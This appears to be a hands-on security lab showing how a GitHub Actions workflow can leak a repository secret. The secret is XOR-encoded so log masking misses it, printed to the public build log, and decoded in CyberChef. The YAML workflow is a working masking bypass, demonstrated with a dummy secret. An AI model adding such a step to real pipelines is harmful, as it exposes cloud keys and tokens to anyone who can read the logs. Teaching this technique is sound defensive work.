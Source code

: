 # Using public logs to exfiltrate secrets

This lab will simulate how an attacker could use GitHub Actions to exfiltrate secrets via public logs.

---

## Prerequisites

Before you begin, make sure you have the following:

- **A GitHub account** (with permission to create private repositories).
- **A browser** to:
  - Access [https://github.com](https://github.com)
  - Access [Cyber Chef](https://gchq.github.io/CyberChef)


## Step 1: Create a new GitHub repository

Go to GitHub and create a new public or private repository named something like `public-logs-exfiltration-demo`.

## Step 2: Add a GitHub Actions workflow

Create the file `.github/workflows/leak.yml` and add following contents to it:

```yaml
name: XOR Secret Leak

on: push

jobs:
  xor_secret:
    runs-on: ubuntu-latest
    env:
      SECRET: ${{ secrets.MY_SECRET }}
    steps:
      - name: XOR the secret and print
        run: |
          KEY="A"  # simple 1-char XOR key
          xor() {
            local input="$1"
            local key="$2"
            local output=""
            for (( i=0; i<${#input}; i++ )); do
              char="${input:$i:1}"
              xor_char=$(printf '%d' "'$char")
              xor_key=$(printf '%d' "'$key")
              result=$(( xor_char ^ xor_key ))
              output+=$(printf '\\x%02x' "$result")
            done
            echo -e "$output"
          }

          echo "XOR'd secret:"
          xor "$SECRET" "$KEY"
```
## Step 3: Add a secret

Go to your GitHub repo > Settings > Secrets and Variables > Actions, and add:

- Name: `MY_SECRET`
- Value: `super-secret-token-123`

## Step 4: Add a dummy file to the repository to trigger a commit and push

## Step 5: Retrieve the exfiltrated secret

 - Go to Actions -> All workflows -> leak.yml
 - In the leak.yml section click on xor_secret
 - Expand XOR the secret and print
 - Copy the value shown below `XOR'd secret:`
 - Go to [Cyber Chef](https://gchq.github.io/CyberChef/)
 - Search for XOR operation
 - Drag and drop it to the Recipie section
 - Paste the copied value in Input section
 - In the Recipie section select UTF-8 from the drop-down
 - Enter A in the Key field
 - The Output section will display the deciphered value of the exfiltrated secret

In a real-world scenario, this secret could be an AWS key, a GitHub token, or a cloud API key.
